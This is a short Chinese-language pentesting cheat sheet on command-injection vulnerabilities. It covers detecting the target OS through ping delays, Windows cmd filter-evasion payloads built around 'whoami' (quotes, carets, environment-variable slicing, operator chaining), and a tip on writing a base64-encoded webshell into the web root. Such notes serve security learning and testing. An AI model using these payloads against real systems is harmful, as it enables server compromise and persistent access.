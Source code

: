 # 命令执行漏洞

命令执行漏洞通常发生在Web应用程序未正确验证用户提供的输入数据，导致用户提交的恶意数据被当作命令或脚本执行。

## 判断操作系统

Ping命令在Linux和Win中的参数不同，“要发送的回显请求数” 在Linux中为-c参数，Win中为-n参数

Windows下的Ping命令每间隔一秒会发送一个ICMP ECHO_REQUEST 包，因此可以利用 Ping 命令来近似地模拟等待指定秒数的效果

如果目标通过 ping -n产生了相应的延时，则说明是Windows系统，反则Linux系统

## Windows

### Windows下不影响命令执行的符号

#### 双引号(")

    who"ami
    
#### 插入符号(^)

^这个符号不能连着使用，不过三个^5个^,单数的^这个都可以连起来使用。

    who^ami
    who^^^ami
    
#### 既然第二种^——^不能连起来使用，我们可以使用"和^组合起来

    (^"^"^"^)
    who^"^"^ami
    
#### 括号()

    (whoami)
    
#### 系统变量

    %CommonProgramFiles:~10,-18%
    还有跟多其他的，可以截取任意字符，到时候拼在一起就可以使用
    ping%CommonProgramFiles:~10,-18%www.baidu.com

#### 逻辑运算符(|，||，&，&&)

    whoami | ping www.baidu.com(执行后边的命令)
    ping xxx.|| whoami //执行whoami(前面错误了，执行后边的)
    ping 127.0.0.1& whoami //都执行(只要一条可以执行，都可以执行到)
    ping www && whoami //不执行whoami(两条都必须执行)
    
### 有回显出网

(1) 确认web物理路径，写入webshell

> 确认web物理路径的通用方法 dir /s/a-d/b 文件名，比如xxx.js
>
> 写入webshell的时候需要考虑webshell特殊符号问题，可以先做base64编码写入，然后再解码
